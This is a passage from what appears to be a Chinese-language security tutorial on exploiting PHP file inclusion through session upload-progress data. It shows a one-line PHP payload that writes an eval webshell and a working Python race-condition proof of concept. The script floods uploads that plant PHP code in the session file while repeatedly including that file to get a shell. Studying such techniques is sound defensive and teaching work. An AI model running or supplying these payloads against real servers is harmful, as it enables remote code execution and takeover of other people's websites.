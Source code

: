 ```php
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

可以看到我们的 123 赫然出现在 session 的数组中，那么如果我们 POST 的值不是 123 而是 `<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>` 呢，是不是我们就能通过包含这个session 文件达到写shell 的目的了呢？

但是还存在一个问题，当 session.upload_progress.cleanup为 On 的时候，`$_SESSION` 中的这个上传进度信息会在读取完全部的 POST 数据后立刻删除（删除的是 session 文件中的上传进度的部分内容，而不是session ），于是乎这个时候就需要条件竞争

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session%20enable.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session%20enable.png)

我们从 PHPSESSID 中得到我们的 session 名以后，我们就一边疯狂请求 upload 页面 一边疯狂包含我们的 session 文件就好了

**这里给出一个 可用的 POC**

```python
#!coding:utf-8

import requests
import time
import threading

host = 'http://localhost'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

def creatSession():
    while True:
        files = {
        "submit" : ("tmp.gif", open("E:/fuck.gif", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo 'K0rz3n';file_put_contents('F:/muma.php','<?php phpinfo();?>');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host+'/index.php',files = files,headers = headers,data=data)


fileName = "F:/Website/phpstudy/PHPTutorial/tmp/tmp/sess_"+PHPSESSID

if __name__ == '__main__':

    url = "{}/qweasdzxc.php?rf={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "K0rz3n" in res.content:
            print res.content
            print("[*] Get shell success.")
```